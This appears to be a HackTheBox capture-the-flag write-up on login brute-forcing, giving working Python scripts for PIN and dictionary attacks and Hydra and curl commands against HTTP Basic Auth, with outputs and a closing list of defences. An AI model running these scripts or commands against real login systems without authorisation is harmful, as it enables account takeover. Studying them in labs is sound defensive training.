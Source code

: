 # HTB-Writeup-BruteForceAttacks
HackTheBox Writeup: Login Brute Forcing techniques, utilizing Hydra, Medusa, Python (requests), cURL, and Nmap to exploit weak authentication mechanisms in HTTP, SSH, FTP.

By Ramyar Daneshgar 

### **Understanding the Attack Vector**
Brute force attacks exploit the fact that systems often implement weak authentication mechanisms with limited input spaces. In this case, the target system uses a 4-digit PIN as a security measure, making it vulnerable to an exhaustive search attack. Since a 4-digit PIN has only 10,000 possible combinations (0000-9999), iterating through all possible values is computationally trivial.

### **Implementation Strategy**
To automate the attack, I wrote a Python script (`solver.py`) that:
1. **Sends HTTP GET requests to the target server** using the format `http://STMIP:STMPO/pin?pin={formatted_pin}`.
2. **Iterates through all possible 4-digit PINs**, formatting them to ensure leading zeros are preserved.
3. **Checks the server’s response** for the correct PIN by verifying if the response contains a success flag.
4. **Terminates upon finding the correct PIN** to avoid unnecessary requests.

#### **Code Execution**
```python
import requests

ip = "STMIP"  # Change this to your instance IP address
port = STMPO  # Change this to your instance port number

for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Ensure the PIN is always a 4-digit string
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():  
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### **Why This Works**
- **Predictable Input Space:** Since the PIN length is only 4 digits, the number of possible combinations is small.
- **No Rate Limiting or Lockout Mechanism:** The script assumes there’s no brute-force protection, such as account lockouts or rate limiting, allowing an attacker to exhaustively test all PINs without consequence.
- **Efficient Checking:** The script stops immediately once the correct PIN is found, reducing unnecessary network traffic.

### **Execution and Outcome**
Running the script successfully returns:
```shell
python3 solver.py

Correct PIN found: 3424
Flag: {hidden}
```
This confirms the vulnerability of the authentication mechanism and provides the required flag.

---

## **Dictionary Attacks**
### **Question 1: After successfully brute-forcing the target using the script, what is the full flag the script returns?**

### **Understanding the Attack Vector**
Unlike brute-force attacks that try all possible values, **dictionary attacks leverage common passwords** from predefined lists. These attacks are effective because users often choose weak passwords found in public leaks or common password lists.

### **Implementation Strategy**
For this attack, I:
1. **Downloaded a common password list** (`500-worst-passwords.txt`) from GitHub’s SecLists repository.
2. **Iterated through the list** and attempted authentication using each password.
3. **Sent HTTP POST requests** to the target’s authentication endpoint.
4. **Checked responses for success** by looking for the `flag` keyword in the JSON response.

#### **Code Execution**
```python
import requests

ip = "STMIP"
port = STMPO

passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

for password in passwords:
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### **Why This Works**
- **Users Choose Weak Passwords:** Many users pick passwords that are easy to remember but also easy to guess.
- **Publicly Available Password Lists:** The script uses a well-known repository of weak passwords, increasing the likelihood of success.
- **No Account Lockout Mechanism:** If the system doesn’t enforce account lockouts or rate limits, attackers can test thousands of passwords without detection.

### **Execution and Outcome**
Running the script successfully returns:
```shell
python3 solver.py

Correct password found: gateway
Flag: {hidden}
```
This confirms that the system is susceptible to dictionary-based attacks.

---

## **Basic HTTP Authentication**
### **Question 1: After successfully brute-forcing and logging into the target, what is the full flag you find?**

### **Understanding the Attack Vector**
Basic HTTP authentication is a simple authentication scheme that sends usernames and passwords in Base64 encoding. If credentials are weak or guessable, they can be brute-forced easily.

### **Implementation Strategy**
For this attack, I:
1. **Downloaded a wordlist of common passwords** (`2023-200_most_used_passwords.txt`).
2. **Used Hydra**, a popular password-cracking tool, to perform an HTTP GET request brute-force.
3. **Checked responses for successful authentication**.

#### **Code Execution**
```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt STMIP http-get / -s STMPO
```

### **Why This Works**
- **HTTP Basic Authentication Uses Base64 Encoding:** Base64 is not encryption but an encoding format, meaning credentials can be decoded easily.
- **Weak Credentials Are Common:** Many services use easily guessable usernames (e.g., `admin`, `user`, `test`) and weak passwords.
- **No Rate Limiting or Account Lockout:** The attack assumes no protection mechanisms are in place.

### **Execution and Outcome**
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.54.201 http-get / -s 52992
[52992][http-get] host: 94.237.54.201   login: basic-auth-user   password: Password@123
```
After obtaining valid credentials, I used `curl` to log in and retrieve the flag:
```shell
curl http://STMIP:STMPO -u "basic-auth-user:Password@123" | grep HTB{
```
This returned:
```html
<p>You found the flag: <span class="flag">{hidden}</span></p>
```

---

## **Key Takeaways**
1. **Brute-force attacks** exploit predictable input spaces (e.g., PINs, limited character passwords).
2. **Dictionary attacks** take advantage of users choosing weak or common passwords.
3. **HTTP Basic Authentication is insecure** when weak credentials are used and no brute-force protection exists.
4. **Rate limiting, account lockouts, and multi-factor authentication (MFA)** are essential to prevent these attacks.

### **How to Defend Against These Attacks**
- **Implement Account Lockout Mechanisms:** Lock accounts after multiple failed attempts.
- **Use Strong Password Policies:** Enforce long, complex passwords.
- **Enable Rate Limiting:** Restrict the number of login attempts per user/IP.
- **Deploy Multi-Factor Authentication (MFA):** Require an additional authentication factor.
- **Avoid Using HTTP Basic Authentication:** Instead, use more secure authentication mechanisms like OAuth or JWT.

